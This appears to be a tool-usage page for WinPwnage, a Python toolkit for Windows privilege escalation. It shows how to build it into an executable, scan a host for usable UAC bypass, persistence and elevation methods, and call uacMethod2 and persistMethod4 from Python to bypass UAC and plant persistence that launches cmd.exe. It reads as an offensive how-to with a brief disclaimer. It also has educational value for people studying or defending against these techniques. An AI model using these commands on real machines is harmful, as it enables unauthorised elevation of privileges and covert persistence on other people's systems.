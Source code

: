 # Privilege Escalation with WINPWNAGE

## Windows

[https://github.com/rootm0s/WinPwnage](https://github.com/rootm0s/WinPwnage)

### Disclaimer

This tool is provided for educational and research purposes only. The authors of this project are no way responsible for any misuse of this tool.

### Building

This build works on Python &gt;= 3.6 and puts the .exe file into the **dist** directory. Install pyinstaller using pip command:

pip install pyinstaller

And run the following command:

pyinstaller --onefile main.py

### Scanning

Compares build number against 'Fixed In' build numbers and displays the results.

main.py --scan uac main.py --scan persist main.py --scan elevate

Example results when scanning for possible UAC methods

```text
 Id:    Type:           Compatible:     Description:
 ----   ------          -----------     -------------
 1      UAC bypass      No              UAC bypass using runas
 2      UAC bypass      Yes             UAC bypass using fodhelper.exe
 3      UAC bypass      Yes             UAC bypass using slui.exe
 4      UAC bypass      Yes             UAC bypass using silentcleanup scheduled task
 5      UAC bypass      No              UAC bypass using sdclt.exe (isolatedcommand)
 6      UAC bypass      No              UAC bypass using sdclt.exe (App Paths)
 7      UAC bypass      No              UAC bypass using perfmon.exe
```

### Importing

Bypass UAC using uacMethod2

```text
from winpwnage.functions.uac.uacMethod2 import uacMethod2 uacMethod2(["c:\\windows\\system32\\cmd.exe", "/k", "whoami"])
```

Persist on system using persistMethod4

```text
from winpwnage.functions.persist.persistMethod4 import persistMethod4 persistMethod4(["c:\\windows\\system32\\cmd.exe", "/k", "whoami"], add\=True)
```
